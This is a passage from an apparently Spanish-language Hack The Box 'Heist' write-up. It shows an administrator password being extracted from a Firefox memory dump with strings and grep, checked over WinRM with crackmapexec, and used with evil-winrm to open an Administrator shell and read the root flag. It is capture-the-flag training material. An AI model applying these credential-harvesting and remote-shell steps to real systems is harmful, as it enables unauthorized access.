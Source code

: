```bash
➜  content strings firefox.exe_240414_035416.dmp | grep password
passwordsCountHistogram
passwordmgr-crypto-login
passwordField
passwordElement
goog-passwordwhite-protox0E!
"C:\Program Files\Mozilla Firefox\firefox.exe" localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

<p align="center">
<img src="/assets/images/htb-writeup-heist/9.png">
</p>

- Vemos también que el usuario esta dentro del grupo `Remote Management Users`.

```bash
➜  content crackmapexec winrm 10.129.116.26 -u 'Administrator' -p '4dD!5}x/re8]FBuZ'
SMB         10.129.116.26   5985   SUPPORTDESK      [*] Windows 10.0 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
HTTP        10.129.116.26   5985   SUPPORTDESK      [*] http://10.129.116.26:5985/wsman
WINRM       10.129.116.26   5985   SUPPORTDESK      [+] SupportDesk\Administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
```

## Shell as administrator

- Ahora ya podemos ver la ultima flag.

```bash
➜  content evil-winrm -i 10.129.116.26 -u 'Administrator' -p '4dD!5}x/re8]FBuZ'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
5c7ac5f3da79f3018d63e5639785415f
```
